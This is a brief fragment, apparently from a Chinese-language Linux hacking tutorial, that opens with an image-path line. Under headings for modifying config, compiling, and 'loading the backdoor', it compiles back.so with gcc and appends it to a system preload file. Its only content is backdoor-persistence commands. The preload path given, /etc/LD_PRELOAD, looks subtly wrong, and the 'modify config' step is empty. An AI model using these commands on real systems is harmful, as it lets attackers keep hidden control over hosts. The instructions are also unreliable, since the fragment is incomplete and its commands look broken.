 # 修改配置



# 编译文件

gcc -shared -fpic -o back.so magic.c

# 载入后门

echo "/usr/lib/back.so" >> /etc/LD_PRELOAD
